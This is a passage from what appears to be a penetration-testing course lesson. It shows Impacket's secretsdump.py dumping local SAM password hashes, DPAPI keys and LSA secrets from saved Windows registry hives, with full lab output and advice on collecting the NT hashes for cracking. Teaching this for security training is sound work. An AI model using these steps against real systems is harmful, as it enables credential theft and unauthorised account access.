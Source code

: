 Using secretsdump.py is a simple process. All we must do is run secretsdump.py using Python, then specify each hive file we retrieved from the target host.
Running secretsdump.py
Attacking SAM
```python
TheCyberScythe@htb[/htb]$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x4d8c7cff8a543fbf245a363d2ffce518
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:3dd5a5ef0ed25b8d6add8b2805cce06b:::
defaultuser0:1000:aad3b435b51404eeaad3b435b51404ee:683b72db605d064397cf503802b51857:::
bob:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
sam:1002:aad3b435b51404eeaad3b435b51404ee:6f8c3f4d3869a10f3b4f0522f537fd33:::
rocky:1003:aad3b435b51404eeaad3b435b51404ee:184ecdda8cf1dd238d438c4aea4d560d:::
ITlocal:1004:aad3b435b51404eeaad3b435b51404ee:f7eb9c06fafaa23c4bcf22ba6781c1e2:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xb1e1744d2dc4403f9fb0420d84c3299ba28f0643
dpapi_userkey:0x7995f82c5de363cc012ca6094d381671506fd362
[*] NL$KM 
 0000   D7 0A F4 B9 1E 3E 77 34  94 8F C4 7D AC 8F 60 69   .....>w4...}..`i
 0010   52 E1 2B 74 FF B2 08 5F  59 FE 32 19 D6 A7 2C F8   R.+t..._Y.2...,.
 0020   E2 A4 80 E0 0F 3D F8 48  44 98 87 E1 C9 CD 4B 28   .....=.HD.....K(
 0030   9B 7B 8B BF 3D 59 DB 90  D8 C7 AB 62 93 30 6A 42   .{..=Y.....b.0jB
NL$KM:d70af4b91e3e7734948fc47dac8f606952e12b74ffb2085f59fe3219d6a72cf8e2a480e00f3df848449887e1c9cd4b289b7b8bbf3d59db90d8c7ab6293306a42
[*] Cleaning up... 
```
Here we see that secretsdump successfully dumps the local SAM hashes and would've also dumped the cached domain logon information if the target was domain-joined and had cached credentials present in hklm\security. Notice the first step secretsdump executes is targeting the system bootkey before proceeding to dump the LOCAL SAM hashes. It cannot dump those hashes without the boot key because that boot key is used to encrypt & decrypt the SAM database, which is why it is important for us to have copies of the registry hives we discussed earlier in this section. Notice at the top of the secretsdump.py output:


This tells us how to read the output and what hashes we can crack. Most modern Windows operating systems store the password as an NT hash. Operating systems older than Windows Vista & Windows Server 2008 store passwords as an LM hash, so we may only benefit from cracking those if our target is an older Windows OS.

Knowing this, we can copy the NT hashes associated with each user account into a text file and start cracking passwords. It may be beneficial to make a note of each user, so we know which password is associated with which user account.
